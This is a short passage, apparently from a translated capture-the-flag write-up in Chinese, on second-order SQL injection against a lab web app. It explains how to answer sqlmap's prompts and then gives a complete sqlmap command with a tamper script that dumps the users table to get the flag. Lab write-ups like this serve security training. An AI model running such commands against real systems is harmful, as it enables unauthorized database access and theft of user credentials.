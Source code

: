 *****当 sqlmap 询问时，回答 no 以遵循 302 重定向，然后回答 yes 以继续进一步测试，如果它检测到一些 WAF/IP。当被问及是否要在以后的请求中合并 cookies 时，回答 no，说 no 以减少请求的数量。如下图所示，sqlmap 能够找到漏洞，这使我们能够自动利用它。*****

*****![](img/3c1b9d1fd5bcebef7ea5642aa9651b9d.png)*****

*****然后可以通过转储*用户*表找到该标志:*****

```
***sqlmap --tamper tamper/so-tamper.py --url [http://10.10.1.134:5000/challenge4/signup](http://10.10.1.134:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.1.134:5000/challenge4/notes](http://10.10.1.134:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast -T users --dump***
```
